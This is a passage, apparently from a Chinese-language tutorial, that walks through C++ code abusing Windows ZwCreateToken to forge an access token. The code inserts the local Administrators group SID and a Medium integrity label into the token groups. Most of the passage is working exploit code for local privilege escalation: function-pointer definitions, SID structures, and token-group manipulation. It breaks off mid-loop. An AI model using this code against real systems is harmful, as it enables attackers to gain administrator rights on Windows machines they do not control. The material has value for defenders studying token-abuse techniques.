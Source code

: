 在 `CreateUserToken()` 函数内部，首先定义了新令牌对象的属性，以保证最终生成的令牌的模拟级别为 SecurityImpersonation：

```c++
SECURITY_QUALITY_OF_SERVICE securityQualityOfService = { sizeof(securityQualityOfService), SecurityImpersonation, SECURITY_STATIC_TRACKING, FALSE };
OBJECT_ATTRIBUTES objectAttributes = { sizeof(objectAttributes), 0, 0, 0, 0, &securityQualityOfService };
```

然后定义了两个 SID，分别代表本地管理员组的 SID，和 Medium 完整想等级等级的 SID：

```c++
SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32, DOMAIN_ALIAS_RID_ADMINS } };
SID_INTEGRITY IntegrityMediumSID = { 1, 1, SECURITY_MANDATORY_LABEL_AUTHORITY, SECURITY_MANDATORY_MEDIUM_RID };
```

接着通过 `GetProcAddress()` API 将 `ZwCreateToken()` 函数从 ntdll.dll 模块中加载进来，需要预先定义 ZwCreateToken 类型：

```c++
// ...
typedef NTSYSAPI NTSTATUS(NTAPI* _ZwCreateToken)(
	OUT PHANDLE TokenHandle,
	IN ACCESS_MASK DesiredAccess,
	IN POBJECT_ATTRIBUTES ObjectAttributes,
	IN TOKEN_TYPE Type,
	IN PLUID AuthenticationId,
	IN PLARGE_INTEGER ExpirationTime,
	IN PTOKEN_USER User,
	IN PTOKEN_GROUPS Groups,
	IN PTOKEN_PRIVILEGES Privileges,
	IN PTOKEN_OWNER Owner,
	IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
	IN PTOKEN_DEFAULT_DACL DefaultDacl,
	IN PTOKEN_SOURCE Source
);
// ...
_ZwCreateToken ZwCreateToken;
// ...
ZwCreateToken = (_ZwCreateToken)GetProcAddress(LoadLibraryA("ntdll"), "ZwCreateToken");
if (ZwCreateToken == NULL) {
	printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
	return NULL;
}
wprintf(L"[*] ZwCreateToken function loaded.\n");
```

由于要创建一个新的令牌，因此必须向 `ZwCreateToken()` 函数提供令牌的 TokenPrivileges、TokenGroups、TokenPrimaryGroup 和 TokenDefaultDacl 等信息。我们不需要自己构造这些信息，只需要从当前进程令牌中获取，最后将这些进行传入 `ZwCreateToken()` 函数。在此之前，需要在获取到的 TokenGroups 信息中设置 LocalAdminGroupSID 和 IntegrityMediumSID 两个 SID，以保证新生成的令牌拥有本地管理员权限并且完整性等级为 Medium。

```c++
pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
SetTokenPrivileges(pTokenPrivileges);
pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
{
	if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
  	{
    	memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
    	wprintf(L"[*] Set the token integrity level to medium.\n");
  	}

```